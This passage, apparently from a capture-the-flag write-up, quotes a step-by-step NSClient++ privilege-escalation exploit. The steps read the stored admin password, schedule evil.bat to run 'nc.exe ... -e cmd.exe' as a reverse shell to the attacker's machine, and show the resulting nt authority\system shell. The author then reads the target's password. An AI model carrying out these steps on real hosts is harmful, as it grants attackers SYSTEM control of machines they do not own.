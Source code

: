 ```text
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

2. Login and enable following modules including enable at startup and save 
configuration:
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Program Files\NSClient++>whoami
	whoami
	nt authority\system
	
Risk:
The vulnerability allows local attackers to escalate privileges and execute 
arbitrary code as Local System
```

Well this didn't look too awfully complicated.  I now had step-by-step instructions for privilege escalation all the way to `nt authority\system`.  

```text
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display 

Current password: ew2x6SsGTxjRwXOT
```
